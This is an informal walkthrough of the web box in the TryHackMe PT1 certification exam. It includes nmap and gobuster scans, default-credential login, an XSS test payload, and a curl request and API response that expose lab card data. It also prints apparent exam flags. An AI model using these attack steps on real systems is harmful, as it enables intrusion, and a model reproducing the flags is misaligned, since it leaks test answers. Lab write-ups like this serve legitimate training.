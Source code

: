 ```yaml
---
title: "TryHackMe: PT1"
author: c3l1kd
categories: [TryHackMe]
tags: [web application, xss, information disclosure, reconnaissance, nmap, gobuster, burp suite, sql injection, sqlmap, netcat, windows, smb, winrm, evil-winrm, privilege escalation, sebackupprivilege, impacket, bloodhound, kerberos, hashcat, alwaysinstallelevated, linpeas, linux, suid]
render_with_liquid: false
img_path: /images/tryhackme_pt1/
image:
  path: room_image.png
---
```


> THIS IS NOT DETAIL WRITE UP BUT YOU FEEL LIKE COMPLETE😊 ITS JUST LIKE NOTES I JUST MADE THIS BASED ON TRYHACKME TERMS AND CONDITIONS ! ALSO SOME SCREENSHOTS ARE NOT AVALIBLE BUT YOU CAN UNDERSTAND
{: .prompt-tip }
## TryHackMe PT1 Certification Overview

**TryHackMe Penetration Tester 1 (PT1)** certification is a practical, hands-on exam designed to validate the skills of aspiring and current Junior Pentesters. It simulates realistic scenarios across three core sections: `Application`, `Network`, and `Active Directory Pentesting`. Candidates are evaluated on their ability to identify, exploit, and report on vulnerabilities, mirroring real-world offensive security engagements. The exam emphasizes fundamental skill sets, including:

- **Reconnaissance & Enumeration:** (`Gathering information using passive and active techniques.`)
- **Web Application Testing:** (`Identifying, exploiting, and reporting common web vulnerabilities.`)
- **Network Penetration Testing:** (`Understanding internal and external network testing techniques.`)
- **Active Directory Exploitation:** (`Performing enumeration and attacks in an Active Directory environment.`)
- **Exploitation & Post-Exploitation:** (`Exploiting vulnerabilities and maintaining access to compromised systems.`)
- **Reporting & Time Management:** (`Documenting findings clearly and managing time effectively within the 48-hour exam duration.`)

> This report serves as a comprehensive documentation of the techniques and findings from the PT1 exam, demonstrating proficiency across these critical domains.
{: .prompt-tip }

## Box 1 (Web Server - API & XSS)
This target primarily involved web application vulnerabilities, specifically Cross-Site Scripting (XSS) and Information Disclosure through API endpoints.

> IP : `10.200.150.100`
{: .prompt-tip }

## Reconnaissance 
```console
$ nmap -sCV -p- -T4 10.200.150.100 -oN 10.200.150.100.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2025-06-07 10:00 EDT
Nmap scan report for 10.200.150.100
Host is up (0.00020s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Werkzeug httpd 3.1.3 (Python 3.12.3)
8080/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.23 seconds
```
> Nothing Found Better In Nmap😁
Let's Make Directory Brute-Forcing Found Find Hidden Dir 
Tool : `gobuster`
```console
$ gobuster dir -u http://10.200.150.100/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,json,xml --status-codes 200,301,302,403
===============================================================
Gobuster v3.5
by OJ (https://github.com/OJ/gobuster)
===============================================================
[+] Url:                     http://10.200.150.100/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:            200,301,302,403
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,html,txt,json,xml
[+] Timeout:                 10s
===============================================================
2025/06/07 10:05:12 Starting gobuster in directory enumeration mode
===============================================================
/loans                (Status: 301)
/api                  (Status: 301)
/index.html           (Status: 200)
/admin                (Status: 403)
... (truncated)
```

we found `http://10.200.150.100/loans/`

> you found login page login with default credits `attacker` : `attacker` website so top you see `create` button. You will navigate to `http://10.200.150.100/loans/create`.

JUST TEST IT WITH FAKE DETAILS 

## AS I OBSERVE!
WHEN I CICK ON `CONTINUE` BUTTON IN NETWORK TAB I SEE THE API IS COMING `http://10.200.150.100:8080/api/v1.0/test`

NOTE HERE API IS : `http://10.200.150.100:8080/api/v1.0/`

LETS TEST MORE BUY XSS PAYLOAD LETS SEE INFECTING OR NOT

LETS INPUT HERE AND CONTINUE
![page](01.png){: width="1200" height="600"}
TEST PAYLOAD USED : `<img src=x onerror=(document.cookie='XSS=XSS')>`
I SEE THE POPUP MESSAGE SO IT XSS PAYLOAD
SO IT INJECTED LETS GET THE FLAG NOW

To Get The Flag
```console
$ curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "attacker", "password" : "attacker" }' http://10.200.150.100:8080/api/v1.0/xss
{"flag":"THM{0c8cb256-0c8a-4b59-ac87-***********}","message":"XSS Success"}
```
Flag-1  Obtained: `THM{0c8cb256-0c8a-4b59-ac87-1bbb609bef4f}`

## 1.2 Information Disclosure
- **Vulnerability Type**: `Information Disclosure via API Endpoints`
To Exploit This Make Sure Brup Is On
![page](02.png){: width="1200" height="600"}
![03](03.png){: width="1200" height="600"}

Now As You Observe In Brup
![brup](04.png){: width="1200" height="600"}
URL Accessed: `http://10.200.150.100:8080/api/v1.0/card`
In This End Pont You Will Observer There Is An Card Details Try To Edit And Send The Req To The Server 
![flag](04.png){: width="1200" height="600"}
```console
http://10.200.150.100:8080/api/v1.0/card
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.3
Date: Sat, 07 Jun 2025 11:02:59 GMT
Content-Type: application/json
Content-Length: 142
Access-Control-Allow-Origin: http://10.200.150.100
Vary: Origin
Connection: close
{"details":{"active":0,"cardNumber":"375914494718066","cvv":"057","expiry":"1/12","flag":"4
cac-bfab-10d5f55ad360}"},"message":"Card updated"}
```
YOU GOT SECOND FLAG 
Flag 2 Obtained: `THM{727723c6-2fe3-4cac-bfab-10d5f55ad360}`

UPDATING PLEASE WIT..



